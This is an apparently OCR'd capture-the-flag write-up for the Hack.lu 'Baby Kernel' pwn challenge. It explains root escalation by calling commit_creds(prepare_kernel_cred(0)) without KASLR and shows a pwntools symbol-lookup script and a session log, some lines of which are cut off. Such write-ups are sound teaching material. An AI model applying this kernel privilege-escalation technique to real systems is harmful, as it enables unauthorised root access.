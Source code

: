 ## Hack.lu Writeups by emmmm

> emmmm, we are team based on USTC&BUPT&HIT&M4x

## PWN

### Baby Kernel
This is a simple kernel pwn challenge. We are able to call some function with arguments. And there is no KASLR from hints. So we call `commit_creds(prepare_kernel_cred(0))` to get root then we can read flag.
```python
babykernel bat solve.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: solve.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python
   2   │ # -*- coding: utf-8 -*-
   3   │ 
   4   │ from pwn import *
   5   │ 
   6   │ vmlinux = ELF("./vmlinux", checksec = False)
   7   │ 
   8   │ pkc = vmlinux.sym['prepare_kernel_cred']
   9   │ print "pkc: ", pkc
  10   │ cc = vmlinux.sym['commit_creds']
  11   │ print "cc: ", cc
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────
babykernel python solve.py 
pkc:  18446744071579168336
cc:  18446744071579167184
```

```bash
----- Menu -----
1. Call
2. Show me my uid
3. Read file
4. Any hintz?
5. Bye!
> 2
uid=1000(user) gid=1000(user) groups=1000(user)
----- Menu -----
1. Call
2. Show me my uid
3. Read file
4. Any hintz?
random: fast init done
5. Bye!
> 1
I need a kernel address to call. Be careful, though or .
> 
18446744071579168336
There is a good chance we will want to pass an argument?
> 
0
Got call address: 0xffffffff8104ee50, argument: 0x000000
flux_baby ioctl nr 900 called
flux_baby ioctl nr 900 called
flux_baby ioctl extracted param ffffffff8104ee50 as funt
A miracle happened. We came back without crashing! I ev.
```